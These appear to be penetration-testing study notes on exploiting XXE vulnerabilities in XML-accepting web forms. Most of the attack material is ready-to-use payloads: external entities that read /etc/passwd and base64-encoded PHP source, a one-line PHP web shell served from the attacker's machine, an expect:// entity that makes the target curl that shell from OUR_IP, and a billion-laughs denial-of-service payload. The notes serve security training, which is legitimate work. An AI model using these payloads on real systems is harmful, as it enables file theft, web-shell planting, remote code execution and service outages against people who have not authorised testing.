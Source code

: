## Local File Disclosure
* When application trusts unfiltered XML data from user input
	* we are may able to reference an external XML DTD document and define new custom XML entities

## Identifying
* First step in identifying potential XXE vulnerabilities is finding web pages that accept an XML user input

![](web_attacks_xxe_identify.jpg)
![](web_attacks_xxe_request.jpg)

* Suppose the web application uses outdated XML libraries, and it does not apply any filters or sanitization on our XML input
* If we send the form without any modification, we get the following message

![](web_attacks_xxe_response.jpg)

* To print the content of an external file to the page, we should `note which elements are being displayed, such that we know which elements to inject into`
* Whatever value we place in the `<email></email>` element gets displayed in the HTTP response
* Try to define a new entity and then use it as a variable in the `email` element to see whether it gets replaced with the value we defined

```xml
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

**Note:** In our example, the XML input in the HTTP request had no DTD being declared within the XML data itself, or being referenced externally, so we added a new DTD before defining our entity. If the `DOCTYPE` was already declared in the XML request, we would just add the `ENTITY` element to it.

* New XML entity called `company`, which we can reference with `&company;`

![](web_attacks_xxe_new_entity.jpg)

**Note:** Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the `Content-Type` header to `application/xml`, and then convert the JSON data to XML with an [online tool](https://www.convertjson.com/json-to-xml.htm). If the web application does accept the request with XML data, then we may also test it against XXE vulnerabilities, which may reveal an unanticipated XXE vulnerability.

## Reading Sensitive Files
* Now we can define an external entity
* We just add the `SYSTEM` keyword and the path

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

![](web_attacks_xxe_external_entity.jpg)

**Tip:** In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive files.

## Reading Source Code
* LFI also allows us to read source code 

![](web_attacks_xxe_file_php.jpg)

* We could not read the file because `the file we are referencing is not in a proper XML format, so it fails to be referenced as an external XML entity`
* If the file contains some of XML's special characters (e.g. `<`/`>`/`&`), it would break the external entity reference and not be used for the reference
* Furthermore, we cannot read any binary data, as it would also not conform to the XML format
* To do so, instead of using `file://` as our reference, we will use PHP's `php://filter/` wrapper
	* Specify the `convert.base64-encode` encoder as our filter, and then add an input resource (e.g. `resource=index.php`)

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

![](web_attacks_xxe_php_filter.jpg)

* This trick only works with PHP web applications

## Remote Code Execution with XXE
* Easiest method would be to look for `ssh` keys
* We may be able to execute commands on PHP-based web applications through the `PHP://expect` filter
	* This requires the PHP `expect` module to be installed and enabled
* Also possible but less likely execute basic commands as `expect://id`
* Most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands

```sh
$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
$ sudo python3 -m http.server 80
```

* Use the following XML code to execute a `curl` command that downloads our web shell into the remote server

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

**Note:** We replaced all spaces in the above XML code with `$IFS`, to avoid breaking the XML syntax. Furthermore, many other characters like `|`, `>`, and `{` may break the code, so we should avoid using them.

## Other XXE Attacks
* SSRF exploitation, which is used to enumerate locally open ports and access their pages, among other restricted web pages, through the XXE vulnerability
* Another attack would be Denial of Service (DOS)

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

*  `this attack no longer works with modern web servers (e.g., Apache), as they protect against entity self-reference`
